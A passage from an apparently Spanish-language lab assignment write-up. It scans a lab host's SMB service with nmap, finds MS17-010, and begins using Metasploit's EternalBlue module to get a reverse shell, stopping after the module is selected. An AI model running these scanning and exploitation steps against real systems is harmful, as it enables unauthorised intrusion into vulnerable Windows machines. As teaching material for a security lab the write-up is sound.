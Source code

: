     El comando escanea especificamente los puertos asociados y detecta las versiones soportadas de SMB. La presencia de **SMBv1** se determina en el output del comando. Si en los resultados aparece "SMBv1" en el listado de protocolos soportados, significa que está habilitado.

### 2.2. Exploración de la Vulnerabilidad (2 puntos)
- Utiliza los resultados del escaneo para identificar si el servicio SMBv1 presenta alguna vulnerabilidad conocida. Indica si el servidor es vulnerable al exploit EternalBlue (MS17-010).

    ```terminal
    nmap -p 445 --script "smb-vuln*" 10.0.2.4
    ```

    ![figura](/assets/images/EP/2.2.1.png)

    Esto indica que el servidor es altamente vulnerable y puede ser explotado usando el exploit EternalBlue, ya que cumple con todas las condiciones necesarias: tiene SMBv1 habilitado y es vulnerable a MS17-010.

- **TIP:**Para explotar esta vulnerabilidad, usa el framework Metasploit y selecciona el módulo específico `exploit/windows/smb/ms17_010_eternalblue`, con el objetivo de establecer una conexión reverse shell hacia la máquina atacante.  

    - Iniciar Metasploit desde la maquina atacante
    ```terminal
    msfconsole -q
    ```
    - Activar el módulo **exploit/windows/smb/ms17_010_eternalblue**
    ```terminal
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    ```    
    ![figura](/assets/images/EP/2.2.2.png)
